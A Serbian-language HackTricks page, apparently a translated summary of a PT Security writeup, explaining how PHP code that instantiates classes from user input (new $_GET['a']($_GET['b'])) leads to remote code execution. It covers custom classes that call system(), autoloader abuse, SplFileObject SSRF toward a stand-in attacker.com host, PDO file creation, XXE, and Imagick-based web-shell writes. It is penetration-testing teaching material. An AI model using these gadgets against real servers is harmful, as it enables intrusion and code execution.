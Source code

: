 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Ovo je u osnovi sažetak [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Uvod

Kreiranje novih proizvoljnih objekata, kao što je `new $_GET["a"]($_GET["a"])`, može dovesti do izvršavanja udaljenog koda (RCE), kako je detaljno opisano u [**writeup-u**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ovaj dokument ističe različite strategije za postizanje RCE-a.

## RCE putem prilagođenih klasa ili automatskog učitavanja

Sintaksa `new $a($b)` se koristi za instanciranje objekta gde **`$a`** predstavlja ime klase, a **`$b`** je prvi argument koji se prosleđuje konstruktoru. Ove promenljive mogu biti dobijene iz korisničkog unosa kao što su GET/POST, gde mogu biti stringovi ili nizovi, ili iz JSON-a, gde mogu biti drugi tipovi.

Razmotrite sledeći primer koda:

```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

U ovom slučaju, postavljanje `$a` na `App` ili `App2` i `$b` na sistemsku komandu (npr. `uname -a`) rezultira izvršavanjem te komande.

**Funkcije automatskog učitavanja** mogu biti iskorišćene ako nema takvih klasa koje su direktno dostupne. Ove funkcije automatski učitavaju klase iz fajlova kada su potrebne i definišu se koristeći `spl_autoload_register` ili `__autoload`:

```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```

Ponašanje automatskog učitavanja varira sa verzijama PHP-a, nudeći različite mogućnosti RCE-a.

## RCE putem ugrađenih klasa

Ako nemate prilagođene klase ili autoloadere, **ugrađene PHP klase** mogu biti dovoljne za RCE. Broj ovih klasa varira između 100 i 200, zavisno od verzije PHP-a i ekstenzija. Mogu se izlistati koristeći `get_declared_classes()`.

Konstruktori od interesa mogu se identifikovati kroz reflection API, kao što je prikazano u sledećem primeru i linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE putem određenih metoda uključuje:**

### **SSRF + deserijalizacija Phar**

Klasa `SplFileObject` omogućava SSRF putem svog konstruktora, omogućavajući konekcije ka bilo kojem URL-u:

```php
new SplFileObject('http://attacker.com/');
```

SSRF može dovesti do napada deserializacije u verzijama PHP-a prije 8.0 korišćenjem Phar protokola.

### **Iskorišćavanje PDO-a**

Konstruktor klase PDO omogućava povezivanje sa bazama podataka putem DSN stringova, što potencijalno omogućava kreiranje datoteka ili druge interakcije:

```php
new PDO("sqlite:/tmp/test.txt")
```

### **SoapClient/SimpleXMLElement XXE**

Verzije PHP-a do 5.3.22 i 5.4.12 bile su podložne XXE napadima putem konstruktora `SoapClient` i `SimpleXMLElement`, u zavisnosti od verzije libxml2.

## RCE putem Imagick ekstenzije

Analizom **zavisnosti projekta**, otkriveno je da se **Imagick** može iskoristiti za **izvršavanje komandi** instanciranjem novih objekata. Ovo pruža mogućnost iskorišćavanja ranjivosti.

### VID parser

Identifikovana je mogućnost parsera VID-a da piše sadržaj na bilo koju određenu putanju u fajl sistemu. Ovo može dovesti do postavljanja PHP šel-a u direktorijum koji je dostupan preko web-a, postižući izvršavanje udaljenog koda (RCE).

#### VID Parser + Slanje fajla

Primećeno je da PHP privremeno čuva poslate fajlove u `/tmp/phpXXXXXX`. VID parser u Imagick-u, koristeći protokol **msl**, može da rukuje džokerima u putanjama fajlova, olakšavajući prenos privremenog fajla na odabranu lokaciju. Ovaj metod pruža dodatni pristup za postizanje proizvoljnog pisanja fajlova u fajl sistemu.

### PHP pad + Brute Force

Metod opisan u [**originalnom opisu**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) uključuje slanje fajlova koji izazivaju pad servera pre brisanja. Brute force-ovanjem naziva privremenog fajla, postaje moguće da Imagick izvrši proizvoljni PHP kod. Međutim, ova tehnika je efikasna samo u zastareloj verziji ImageMagick-a.

## Reference

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
